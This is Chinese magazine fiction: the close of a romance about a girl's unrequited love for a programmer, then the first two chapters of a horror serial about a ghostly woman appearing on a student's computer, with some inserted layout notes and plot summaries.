我笑，告诉他我没有哥哥，想有被哥哥宠坏、保护的感觉。

林木木说好。我却在那一刻开始悲伤，既然不能成为他的唯一，至少可以成为他最接近的人。可是做了妹妹就再也与恋人无缘了。

我抬起头看着林木木，以妹妹的口气撒娇地说：“哥哥，我要喝粥，八宝粥。”

林木木笑笑，温柔地拍着我的脑袋，说马上就买回来。

人家说天使与海豚即使相爱，也无法在一起，因为一个没有鱼鳍，一个没有翅膀。但是它们至少遥望。所以我选择站在一旁遥望。看着如烟和林木木每天都在我们的面前晃来晃去，强忍着心酸大声地笑。

几个月一晃而过，我开始学会了隐藏，学着假装快乐。每次都是听着如烟和林木木在一起争论技术到面红耳赤，而我不断地忙着入侵。我希望有一天可以参与如烟和林木木的话题。我只能默默地拿着一本书，看着那些不懂的地方勾勾画画，却不问我身边的两大高手。那样我会觉得自卑。还记得我第一次问林木木什么是VC的时候，如烟眼中闪过的轻蔑，伤得我体无完肤。我明白我在他们心里只是一个比菜鸟还菜的小丫头，可我还想飞翔，飞在林木木、如烟的身边。

我以为一切都会这样完美地走下去。直到我再次看到如烟醉倒在别人的怀里时，我的心开始疼痛，为了林木木。

那天我像个疯子一样把如烟从那个男人的怀里抢夺出来，我真的很想狠狠地抽如烟两巴掌。但是我看到如烟眼里隐忍的泪水，似乎她的悲伤她的疼痛更加的沉重。我扶着她坐在月季花下，她眼中的泪终于倾泻，一滴滴一行行落在我的衣服上，那些辛酸的眼泪打湿我的衣裳，我的心在她的泪水中沉沦。

我，迷醉的她，一起坐在月季花下，看着那妩媚的夕阳在天边努力地跳动着，挣扎着，却还是沦陷在夜的黑暗下。

如烟说，在这个世界上最疼爱她的是父母，但也弃她而去。

如烟说，林木木不爱她，只爱电脑里面的那一切。那里有他灵动的女子，有他心向往的世界。为了他，她努力地学习技术，却依然无法走进他的宫殿。

如烟说，香烟弥漫里她看清了她自己，看清了她垂涎已久的爱情。

如烟说，讨厌酒的辛辣，却喜欢醉了之后那种飘忽，且冷漠的感觉。至少在这样的情况下对于爱和生活还有许些希望。

如烟说，这个世界上人们所谓的疼痛，都不算是真正的疼痛。那些能称得上疼痛的东西已经不再疼也不在痛了。疼之切，痛之深便是麻木。

如烟说了很多，到最后说到累了，倦了，像个无助的孩子一样在我的怀里沉睡。我紧紧地搂着她，闭着眼。黑暗中亮起的一盏荧光芒，跳动的霓虹也拼命地为这个夜晚平添几分姿色。我为什么不能让相爱的人幸福呢？我想做夜晚的霓虹，给林木木，给如烟的世界平添一份美丽。

……

（左栏为连续小说正文，包含多段首行缩进段落；无列表、无表格、无插图、无引用块、无代码块。）

头嗡嗡作响，眼前的一切都开始模糊不清，像是梦境一般不真实，我软软地躺在林木木的怀里，真想永远地沉眠。

严重的高烧让我昏睡了几天几夜，昏昏沉沉地睁不开眼睛。就好像快要死掉了一样。在这段日子里我每天都会听到一个声音呢喃地祈祷，每次睁开眼睛看到趴在我床边的林木木都会感觉到温暖。

……

我像个傻子一样坐在地上痴痴地笑，林木木你到底是一个怎样的人？爱为什么几经轮回，也无法演化成幸福。兜兜转转还是回到一无所有的起点，留下的却是伤痕无数。

（右栏为连续小说正文，包含多段首行缩进段落；无列表、无表格、无插图、无引用块、无代码块。）

## 侠隐仙踪

### 鬼网超生（一）

### 初遇电脑里的女鬼

海边一粒沙

深夜，微弱的烛光闪烁在寂静的夜里，飘忽不定的火光，幽幽、阴森、冰冷。窗户不知什么时候打开了，晚风呜咽着，不停敲打着窗玻璃，发出刺耳的碰撞声。窗帘抖动着，映在地上的影子也跟着摇曳起来。东方皓哲夜半醒来的时候，被眼前这一幕吓到了……

（正文为三栏长篇小说排版，以下内容跨栏连续）

十五分钟过去了，东方皓哲一直都躲在被窝里，冒着冷汗一动不敢动……又等了十分钟左右，东方皓哲才从被窝里爬出来，按了按墙上的开关，灯没有亮。停电了？那会是谁给自己点亮了这支蜡烛……

东方皓哲对着宿舍众人讲述自己所见：半夜、电脑自动亮起、屏幕中出现高楼与女子、乌黑长发、暗黑血迹与恐怖眼神。众人起初不信，随后在争执中逐渐重视，决定白天一起去他所说的“鬼屋”查看。

文中后续情节继续围绕“电脑中的女鬼”展开，人物包括宿舍老大、老二等，含对话与心理描写，整体为惊悚悬疑叙事风格。

“你没事吧，要不过几天再回去吧！”

东方摇了摇头说道：“今天就去吧，我可不想让你们怀疑我是精神病患者。”

大家见东方这么坚决，全部像蛇蜕皮一样甩开凌乱的被子，浩浩荡荡地跟着东方走了出去。东方在走进自己租的小屋前还有些心有余悸，刚走到门前，大家看着敞开的房门，一副惊讶的样子说道：“东方，昨天晚上你就这么跑到我们寝室去的吗？连门都不锁，你也真够大胆的。不怕你那个宝贝电脑被人偷了吗？”

东方这才想起来，原来昨天太害怕了，走的时候连门都没有锁。经大家提醒，才担心起自己的电脑。连忙夺门而入，房间里一切安好，只是房间中央躺着一个陌生的男子，脸色苍白地躺在屋子中央。

几个人连忙架起地上的那人，摇晃着说道：“喂，喂，起来，你是谁啊？快点起来！”

经过几个人的呼唤，男子终于迷迷糊糊地睁开了眼睛，看了看四周，呼吸开始变得越来越急促，紧张而又恐慌地说道：“有鬼，有鬼……这屋子里有鬼！”

几个人还没明白是怎么回事的时候，这个男子就开始疯狂地挣脱大家的手，情绪激动地想离开。可当他看到紧挨着大门的东方时，呼吸开始更加急促，不能自控地喊叫着说道：“不要，有鬼，有鬼……”边喊边向窗口跑去。

“咔嚓”，玻璃窗破碎的声音在恬淡的下午格外刺耳。在场的所有人都愣了，良久老四才惊魂未定地说道：“这哥们真猛，连六楼都敢跳！”

不过老四话刚说完，大家的心又都悬了起来。六楼！那么这小子跳下去岂不是必死无疑吗？

大家战战兢兢地走到窗前，小心翼翼地向下面看去。那个胆大的小子安静地躺在楼底下，双眼充满了不安和惊恐地盯着六楼，身体不断地抽搐着，身后绽放着大片猩红色的花朵。旁边围着一群看热闹不嫌事大的围观者。

大家的脸色一片苍白，忐忑不安地一同把目光投向了东方。东方同样脸色苍白，颤抖地说道：“不要看我，我也不知道该怎么办！”说着把目光转向了老二。

老二一脸被吓得没有血色了，但竟然保持沉着冷静地拿出电话说道：“报警！”

三分钟后，楼底下来了一群警察，当然不由分说就把东方一群人都带到了警察局。经过四十八个小时的拷问，几乎把所有人都折腾得快要发疯了。当然发疯的不包括警察，因为警察轮班审问，而东方几人却连眼睛都不能合。不过最后警察还是把东方几个人放了，最终给出了如下解释：

“跳楼的男子，是一名惯偷，跳楼前两个小时到东方皓哲所住的出租房内盗窃，但是他说自己看到鬼了，跳楼前也看到了，太激动就跳了下去。基本上跟你们几个没什么关系。”警察不相信地说道。

大家同时都松了一口气，良久东方才不放心地问道：“那他伤势怎么样了？没事吧？”

警察漫不经心地回答道：“幸好他跳下去的时候被二楼门前的一个吊棚挡了一下，起到了一个缓冲的作用，要不然他这条小命也算是交代了。这样倒也帮了你们了，要是他死了，你们可就说不清道不明了。不过他现在全身多处骨折，而且我们怀疑他精神也有问题。”

大家了解了全部情况后，心情大好，总算是洗出了个包吃包住冤案。不过东方却陷入更深的沉思，不管怎么说那个小偷和他一定有过相同的遭遇，不会两个人都精神错乱了吧。老二拍了拍东方的肩膀说道：“别想那么多了，一会儿吃点东西，回寝室睡一觉再说吧。”

东方勉强地笑了笑，不好意思地说道：“对不起，连累各位兄弟了！”

老四是个东北人，比较豪爽，一听东方这么说，马上就吹胡子瞪眼地说道：“东方皓哲，你这话是啥意思啊？我们几个就那么小气啊？我们是哥们，以后这话少说啊，我不爱听。待会儿这顿饭你请了。我们继续帮你调查这事，我就不相信这个世界有鬼，是也是人弄出来的，一定要调查到底。”

东方摇摇晃晃地扶着老二的胳膊说道：“老四啊，饶了我吧，我现在毕竟还是个病人啊，你这么宰我于心何忍啊？”

老大点点头，赞同地说道：“对，东方也为这事上了不少火，今天别让他请了，一会儿大家AA制去吃饭，回来之后去东方的出租屋调查一下，然后再回去睡觉。我们对东方的好，他一定会记住的，这事结束了要请我们吃韩国烤肉，是吧，东方？”

东方现在很想让大家集体失忆，把刚才这段话彻底地从大家的脑袋里抹去。他订了一个28元的自助餐馆去填补饥肠辘辘的肚子。

当几个人酒足饭饱后，餐馆里陈列的食物已经所剩无几了。带着餐厅工作人员惊异的表情以及食客们敬意的眼神，一群人浩浩荡荡、有声有势地挺着肚子走出了餐馆。重新又来到东方的鬼屋，大家都觉得有点阴森的感觉，也许是因为几天都没有人住的原因，也许是因为东方和那个惯偷的描述。不管怎么说都给这个屋子平添了几分诡异的色彩。

房间的陈列依然如初，猪窝一般的凌乱。曾经有一位伟人说过，一个没有女主人的房间大多数是个没有硝烟的战场，而一个搞计算机的男生又没有女主人的房间，绝大多数比战场更加恶劣，在此基础上再添加一个“猪窝”这个名词更加恰当（这位名人，就是作者在下本人）。

很显然警察已经在这里进行了一场彻底的搜查，当东方他们来的时候几乎没有什么证据可言了。几个人折腾大半天什么都没有找到。老三一副忧国忧民的模样说道：“天啊，那要是有什么血迹啊，尸体什么的，不都被警察发现了吗？”

东方一拳头挥了过去，暴怒道：“什么血迹、尸体的，你以为我是杀人犯吗？我这屋子怎么会有这个东西呢？”

老三跌坐在地上，勉强地扶着墙爬了起来说道：“这话你自己很清楚吧？刚才一拳头差点杀了我！再说只是害怕警察掌握对你不利的证据，就算是一些诡异的线索，也会让警察对你产生怀疑的。”

“警察什么都没有发现，如果发现了什么我们也不会这么顺利地出来。不过老三，我在你的身后看到了一个人头！”老二沉着冷静地说出这些话的时候，老三惨叫一声向前跳了几米之远。

这时候大家才注意到老三背后那面墙，墙上有着模糊的红色痕迹，虽然模糊，但是也可以依稀看出那是一个人头的影像。本来这个屋子就让人觉得怪怪的，看完了这面墙让大家更增了恐慌。

东方看到大家脸上那种恐惧的表情之后，只好自己亲自动手了。用手一点点地抹去墙皮上白色的粉末。这种粉末很容易擦掉，像是粉笔末，但是好像比粉笔末更有覆盖性。在东方起了带头作用后，大家也都开始拿着破布或者卫生纸向墙上蹭去。一幅让大家惊魂不定的画面终于出现在了墙上。墙上是使用红色油漆勾勒出的图案：一个人躺在冰冷的水泥地上，前面是一个耸立的高楼，女人的眼睛尤为突出，那是一双充满了鲜血的双眼，目光中带着凄凉、黯然的微笑。而更加奇怪的是，无论大家站在哪个角度，这个女人的眼睛都像是在紧盯着大家的双眼。更让东方感到不安的是，这个女人和这场景是被框在一个电脑显示器里的。这一幕正是东方前天晚上亲眼看到的，也是这几天来闭上眼睛就能看到的。事情不简单。

老二沉思了很久后说道：“东方，我觉得这里面的事情很复杂，你还是小心一点。我看还是守着这个屋子才能有很大的收获，要不就让老三、老四今晚就在这陪着你吧。”

“你怎么不陪呢？感情这里闹鬼了你让我陪着东方，别的好事你从来都不找我。就说上次……”老三看了看墙上那红色的油漆图案，心里就开始发毛，不由自主地开始打哆嗦了起来。

东方不好意思地说道：“不用陪我，我没事的，你们都很累了，早点回去休息吧！”

老四冲着老三翻了翻白眼说道：“真不像个男人。那啥，东方你别上火，我陪着你睡。”老四的话刚说完，“窗户”砰的一声被一阵强风吹开，不停地拍打着墙壁，像是沉睡的恶魔突然惊醒，愤怒焦虑地呼吸。

刚才还壮志豪情的老四“嗷”的一声直扑到东方的怀里……东方自认刚刚激昂，他所有的好兄弟都呈现呆呆状态，随后是一阵震耳欲聋的爆笑。整个封闭着的房间里，被这爽朗的笑声驱赶了大家心里无缘的恐惧。

### 鬼网超生（二）

海边一粒沙

### 诡异的女房东

东方恍惚看了看手中的鲜血，双手不停地颤抖着。“啊……”一声惊恐不安的叫喊声在安静的午夜里响起，沉闷的夜被这声惊叫所惊醒……“怎么了？东方，说话啊！”老四已经完全惊醒了，从床上跳了下来跑到东方的身边。

东方目光呆滞地看了看老四，喃喃自语地说道：“我的电脑哭了，它哭了，流着血红色的泪。为什么会这样？难道鬼又来了？”老四这才发现东方的手并没有受伤，电脑的屏幕上却都是血。

老四呆了，静静地看着电脑和东方，空气因为长时间的寂静而变得有些让人窒息。血气方刚的老四叫嚷了起来：“NND，我不管你是谁，识相就快点滚，少在这里装神弄鬼的！”

东方勉强站了起来，打开了日光灯，瞬间房间里一片雪白……“老四，我怎么总感觉像是掉进了一个巨大的漩涡，挣扎无力，也无法逃脱，你说这到底是不是鬼？”

老四沉默了，其实他不相信这个世界上真有鬼的存在，但是这次房间里睡到半夜的时候，他明明感觉到自己的头脑很清醒，明明感觉到东方从床上站了起来，也感觉到东方恐慌和僵硬的心情，但自己的身体却不受自己控制……

东方叹息着把老四扶了起来，一起坐在床上。老四提醒道：“你说你认识电脑里的那个女人吗？”东方摇头回答道：“不认识，从来都没见过，其实我更愿意相信是别人入侵我的电脑后故意在戏弄我！”

“咚咚……”一阵敲门声把惊魂未定的东方和老四吓了一跳。敲门声依旧，在寂静的夜里没有一个人可以做到镇定。“谁……谁啊？”虽然两个人故作镇定，但是声音还是颤抖的。

“咚咚咚”敲门声依然不断，但是却没有人回答。“不说话我可不给你开门啊。”老四大声说道，然后等待着对方的回答，但是换来的却是门外的一片安静。这样的情况更让老四和东方害怕起来，站在门口久久不敢离去。

“嘀嗒，嘀嗒！”高跟鞋有节奏地踏着水泥地的声音渐渐远去，伴随着女人忧伤的歌声在门外飘荡。老四和东方不禁颤抖了起来……过了好久好久，那歌声早已飘远了，高跟鞋的声音也消失了。

老四忧心忡忡地说道：“东方啊，要不明天找个道长驱驱邪吧，关键是不知道这些东西是电脑里爬出来的，还是这屋子有问题啊！”

东方一脸茫然地看着老四说道：“你相信有那个东西？”老四摇摇头说道：“我也不知道！”

突然，电脑发出了警报，电脑的屏幕发出红色的光芒不停闪烁着，警报的声音一下子充斥在整个房间里。东方连忙按下了关机键，电脑一关机，房间里一下子就安静了起来。东方和老四此时已经满头是汗了。

无意间瞟到了门口前，东方看到一个白色衣服的影子站在门前，一声不响地站在那里，像个死人一般。东方只是用眼角的余光看了一眼，心就忽悠了一下。小声地对老四说道：“老四，老四，你看看，门口好像有人。”

白色连衣裙在微风中摇曳，乌黑的长发遮着整个面容，惨白的灯光照射下瘦弱的身材显得有些干瘦，又有些诡异。老四差点没喊出来，但是却被东方紧紧地捂住了嘴巴，威胁着说道：“别喊，万一你一喊惊动了她，把你吃了怎么办？”

老四吓得咳嗽了一下，连忙闭上了嘴巴……

女人不好意思地一笑，然后说道：“我叫小静，是这层楼的房东，不过你不认识我也是很正常的，因为这栋楼以前是我妈一个人住，她死后我就一直通过网络来租房，一直没有回国，所以你才不认识我的！”

东方恍然大悟：“原来你就是‘静止的云’啊？对不起，只是没见过你，所以……”小静善意地笑了笑：“没关系，我可以理解的。”

小静忽然从身上拿出一张纸递给东方说道：“你看看，这上面的人你都认识吗？”东方接过那张纸打开看了看，脸色剧烈地变化着，吃惊地看着小静却说不出任何话。

老四看到这里，好奇地一把抢过那张纸，才看到纸上密密麻麻地写着一些人的名字。老四不解地看了看夹杂着猜疑和怒火的东方，和一脸得意、满面春风的小静，不解地问道：“这是什么啊？你们都是什么表情啊？”

小静微笑着对东方说道：“看来你隐藏得很深啊，连你最好的朋友都不知道？”东方一脸淡淡地说道：“你到底是什么人？到底有什么目的？”

……

沉默了一会儿，东方揉了揉眼睛嘟囔地说道：“我想睡觉了，你睡不睡？”听到东方说想要睡觉，老四也感觉好像有点儿困了，于是点点头，一头栽倒在了床上，不过一直都是睁着眼睛盯着屋顶。东方已经没有精力去揣摩她到底在想什么，现在他只有一个念头，那就是睡觉。

“铃铃……”正在睡梦中的东方被一阵电话铃声吵了起来，气愤地想把手机扔掉。